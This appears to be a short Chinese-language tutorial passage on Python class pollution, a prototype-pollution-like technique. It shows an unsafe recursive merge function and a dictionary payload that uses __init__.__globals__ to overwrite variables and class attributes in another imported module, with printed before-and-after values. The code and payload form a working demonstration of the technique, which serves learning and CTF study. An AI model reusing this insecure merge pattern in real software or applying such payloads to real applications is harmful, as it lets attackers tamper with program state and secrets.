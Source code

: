 ## 已加载模块获取

有些时候我们需要污染其他模块下类的属性，而我们的操作又局限在入口文件，这时候需要对其他加载过的模块来获取了。

### 加载关系简单

同样是通过`__globals__`找到该模块`import`进来的模块

```python
# target.py
secret = 123


class target_class:
    secret_var = 'flag'
```

```python
import target


class cls:
    def __init__(self):
        pass


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


obj = cls()
payload = {
    "__init__": {
        "__globals__": {
            "target": {
                "secret": 321,
                "target_class": {
                    'secret_var': 'polluted~'
                }
            }
        }
    }
}
print(target.secret)  # 123
print(target.target_class.secret_var)  # flag
merge(payload, obj)
print(target.secret)  # 321
print(target.target_class.secret_var)  # polluted~

```
